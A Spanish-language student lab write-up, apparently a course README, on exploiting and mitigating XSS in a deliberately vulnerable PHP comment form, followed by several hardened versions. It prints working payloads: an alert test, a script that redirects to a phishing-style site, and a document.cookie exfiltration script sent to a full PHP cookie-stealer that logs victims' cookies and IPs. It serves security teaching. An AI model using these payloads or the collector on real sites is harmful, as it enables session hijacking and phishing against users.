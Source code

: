 # PPS-Unidad3Actividad5-XSS-RaulAlbalatPerez

Explotación y Mitigación de Cross-Site Scripting (XSS)
===
 Objetivo de la práctica:

> El propósito principal de esta actividad es repasar y poner en práctica los ataques de tipo Cross-Site Scripting (XSS), identificando sus principales variantes como el XSS reflejado, almacenado y basado en DOM. Asimismo, se busca analizar fragmentos de código que presentan vulnerabilidades comunes a este tipo de ataque, y aplicar distintas técnicas de prevención que fortalezcan la seguridad de las aplicaciones web frente a estas amenazas.



## ACTIVIDADES A REALIZAR
> Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

> Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
> También y como marco de referencia, tienes [la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

Vamos a crear un página **php** vulnerable. 

## Código vulnerable
---
En primer lugar los que haré será crear un archivo vulnerable **comment.php** en el entorno de pruebas **Lamp** dentro del directorio **www**. Dentro de www lo creo un directorio **xss** donde meteré el **comment.php** .Dentro de el irá  el siguiente contenido.
![](imagenes/xss1.png)

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![](imagenes/xss2.png)

Este fragmento de código genera un formulario que permite al usuario introducir un comentario. Al enviarlo, dicho comentario se imprime directamente en la página con el mensaje “Comentario publicado:\[comentario\]". ESte código no realiza ningún tipo de validación ni limpieza sobre la información introducida por el usuario, lo que abre la posibilidad de insertar scripts maliciosos que pueden ser ejecutados por el navegador.

![](imagenes/xss3.png)


### **Explotación de XSS**
---

Para realizar las explotaciones tendremos que abrir el navegador y acceder a la aplicación: <http://localhost/comment.php> esto nos abrirá un formulario.

**Explotación 1**
En dicho formulario lo que vamos a realizar es introducir un código **JS** para comprobar que el formulario no está lo suficientemente securizado.

~~~
<script>alert('XSS ejecutado!')</script>
~~~

Me aparece una alerta **(alert()**) en el navegador por lo que puede ser vulnerable.

![](imagenes/xss4.png)

**Explotación 2**

En esta explotación introducimos este código.

`<script>window.location='https://fakeupdate.net/win11/'</script>`

![](imagenes/xss5.png)

Vemos que  nos redirige a una página de phishing.

![](imagenes/xss6.png)


**Capturar cookies del usuario (en ataques reales):**
---
Con este ataque, un atacante podría robar sesiones de usuarios.

- creamos un  **servidor atacante** en el servidor web. Para ello creamos directorio de nombre `cookiestealer`dentro de `www` en el cual tendrá un fichero `index.php`con el siguiente código  obtenido de [este archivo php](files/steal.php). tabien crearemos un fichero `cookies.txt` en la misma ruta donde se encuentra `index.php` y le daremos los permisos corrspondientes.  
~~~
![](imagenes/xss7.png)

<?php
// Obtener la fecha actual
$date = date("Y/m/d H:i:s");

// Obtener la dirección IP, User Agent y Referer
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : 'No User Agent';
$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : 'No Referer';

// Obtener el parámetro 'cookie' de la URL
$cookie = isset($_GET['cookie']) ? $_GET['cookie'] : 'No Cookie Provided';

// Escapar las variables para evitar inyecciones de código
$cookie = htmlspecialchars($cookie, ENT_QUOTES, 'UTF-8');
$user_agent = htmlspecialchars($user_agent, ENT_QUOTES, 'UTF-8');
$referer = htmlspecialchars($referer, ENT_QUOTES, 'UTF-8');

// Intentar abrir el archivo de registro
$file = fopen("cookies.txt", "a");

if ($file === false) {
    // Si no se puede abrir el archivo, responder con error
    echo json_encode(["status" => 500, "message" => "Error opening file"]);
    exit();
}

// Escribir la información en el archivo
fwrite($file, "[+] Date: {$date}\n[+] IP: {$ip}\n[+] UserAgent: {$user_agent}\n[+] Referer: {$referer}\n[+] Cookies: {$cookie}\n---\n");

// Cerrar el archivo
fclose($file);

// Responder con un JSON de éxito
echo json_encode(["status" => 200]);
?>
~~~
![](imagenes/xss8.png)

Ataque: Si insertamos en el comentario el siguiente script
~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~
![](imagenes/xss8.png)

![](imagenes/xss9.png)

En el archivo **cookie.txt** del servidor del atacante se habrán guardado los datos de nuestra cookie:

![](imagenes/xss10.png)


Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>

## **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.Para ello voy a  crear el fichero `comment1.php` con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](imagenes/xss11.png)

La función que hemos creado al principio del documento: filter_string_polyfill nos va a eliminar todos los caracteres peligrosos y nos cambia caracteres conflictivos.

Una vez creada `comment1.php` entramos como anteriormente pero con <http://localhost/xss/comment1.php> 
![](imagenes/xss12.png)

Ejecuto el script anteriorque redireccionaba a una página de phishing, para poder comprobar que no se ha ejecutado.
![](imagenes/xss13.png)

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en sus equivalentes entidades HTML. Esto garantiza que incluso si el usuario ingresa una cadena que contiene etiquetas o código HTML, se mostrará como texto sin formato en lugar de que el navegador lo ejecute.
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.


Para realizar la sanitización d ela entrada con `htmlspecialchars()` voy a crear un archivo comment2.php con el siguiente código

~~~
<?php
if (isset($_POST['comment'])) {
    // Guardamos el valor del comentario recibido por POST
    $comment = $_POST['comment'];

    // Convertimos caracteres especiales a entidades HTML
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Mostramos el comentario ya filtrado
    echo "<p><strong>Comentario publicado:</strong> $comment</p>";
}
?>
<form method="post">
    <input type="text" name="comment" required>
    <button type="submit">Enviar</button>
</form>
~~~

![](imagenes/xss14.png)

Aunque usar htmlspecialchars() es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:
comprobamos resultado accediendo a la URL.
![](imagenes/xss15.png)

**Validación de entrada**
---

En su estado actual, el código no restringe el contenido enviado por el usuario, permitiendo incluso que se introduzcan campos vacíos o textos excesivamente extensos. Es recomendable aplicar validaciones para garantizar que los comentarios tengan un formato y longitud apropiados. Para resolverlos creo  `comment3.php` con el siguiente código:
~~~
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['comment'])) {
    // Sanitizar el comentario recibido
    $comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');

    // Validar contenido
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <input type="text" name="comment" required maxlength="500">
    <button type="submit">Enviar</button>
</form>
~~~

Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](imagenes/xss16.png)


**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).

## Código Seguro


Por último para terminar creo  `comment4.php` con todas las mitigaciones incluidas 

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~
![](imagenes/xss17.png)

Aquí está el código securizado:

🔒 Medidas de seguridad implementadas

1. Eliminación de etiquetas HTML y caracteres nulos:

La función filter_string_polyfill() usa preg_replace('/\x00|<[^>]*>?/', '', $string); para eliminar caracteres nulos (\x00) y cualquier etiqueta HTML (<[^>]*>?). Esto reduce la posibilidad de inyección de scripts.

2. Escapado de comillas:

En filter_string_polyfill(), las comillas simples (') y dobles (") se reemplazan por sus equivalentes en entidades HTML (&#39; y &#34;). Esto evita el cierre prematuro de atributos en HTML.

3. Uso de htmlspecialchars:

Después de aplicar filter_string_polyfill(), se vuelve a ejecutar htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');, lo que convierte caracteres especiales en entidades HTML.

	- ENT_QUOTES protege contra XSS al convertir tanto comillas simples como dobles en sus versiones seguras (&#39; y &#34;).

	- UTF-8 previene ataques basados en codificaciones incorrectas.  

4. Validación de longitud y contenido:

Se valida que el comentario no esté vacío y que no supere los 500 caracteres. Aunque esto no previene directamente XSS, ayuda a limitar intentos de ataques masivos.





🚀 Resultado

![](imagenes/xss18.png)
✔ Código seguro contra **Cross-Site Scripting (XSS)**
